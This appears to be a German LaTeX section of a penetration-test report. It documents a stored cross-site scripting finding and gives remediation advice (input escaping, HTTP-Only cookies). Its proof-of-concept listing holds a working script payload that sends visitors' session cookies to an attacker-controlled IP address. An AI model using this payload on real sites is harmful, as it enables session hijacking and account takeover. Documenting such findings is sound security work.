
\section{\makecvssbadge Stored Cross-Site Scripting (XSS)}
\subsection*{Proof of Concept}
Der Angreifer kann nun einen neuen Block-Eintrag erstellen und den folgenden JavaScript-Code in das Textfeld für den Titel des Blogeintrags einfügen (siehe \autoref{listing:pedicure-xss}). Dadurch werden die SessionIDs aller Benutzer, die die Startseite mit den Blogeinträgen öffnen, an den Angreifer gesendet. Auf diese Weise wird die SessionID für den Benutzer \texttt{Odo} ermittelt, der über Entwicklerrechte auf dem Webserver verfügt.

\begin{listing}[!ht]
\begin{verbatim}
<span id="sebastian" />
<script>
    image = document.createElement('img');
    image.src = "http://10.0.32.2/?" + document.cookie;
    document.getElementById('sebastian').appendChild(image);
</script>
\end{verbatim}
\caption{Cross Site Scripting zum Erlangen von SessionIDs}
\label{listing:pedicure-xss}
\end{listing}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Validieren und Escapen sie alle Nutzereingaben, um Injection Angriffe zu verhindern.
    \item Sichere Session-Cookies: Setzen sie HTTP-Only Cookies für die SessionIDs, damit diese nicht durch clientseitigen JavaScript Code ausgelesen werden können.
\end{itemize}




